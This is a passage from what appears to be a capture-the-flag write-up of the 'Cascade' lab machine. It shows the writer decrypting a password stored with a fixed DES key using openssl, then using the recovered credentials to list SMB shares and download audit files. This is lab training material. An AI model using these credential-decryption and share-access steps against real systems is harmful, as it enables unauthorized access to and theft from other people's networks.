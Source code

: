 Googling how to decode/decrypt the password, I came across this:
- https://github.com/frizb/PasswordDecrypts

It says the password is encrypted with a fixed DES key, and offers a way to decrypt using the linux command line:

```sh
❯ echo 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```

Nice! It looks like we have another user's #credentials:
- `s.smith:sT333ve2`

Let's see what we can do with this user:

```sh
# check share accesses
❯ smbmap -H 10.10.10.182 -u 's.smith' -p 'sT333ve2'
[+] IP: 10.10.10.182:445	Name: cascade
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	Audit$                                            	READ ONLY	
	C$                                                	NO ACCESS	Default share
	Data                                              	READ ONLY	
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	print$                                            	READ ONLY	Printer Drivers
	SYSVOL                                            	READ ONLY	Logon server share
```

It appears we added new access to the `Audit$` share. Let's explore that:

```sh
❯ smbclient '//cascade/Audit$' -U 'cascade.local/s.smith%sT333ve2'
Try "help" to get a list of possible commands.
smb: \> ls
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020
smb: \> cd x64
smb: \x64\> ls
  SQLite.Interop.dll                  A  1639936  Sun Oct 27 02:39:20 2019
smb: \x64\> cd ../x86
smb: \x86\> ls
  SQLite.Interop.dll                  A  1246720  Sun Oct 27 02:34:20 2019
smb: \> cd ../DB
smb: \DB\> ls
  Audit.db                           An    24576  Tue Jan 28 16:39:24 2020
smb: \> get CascAudit.exe
smb: \> get CascCrypto.dll
smb: \> get RunAudit.bat
smb: \DB\> get Audit.db
```

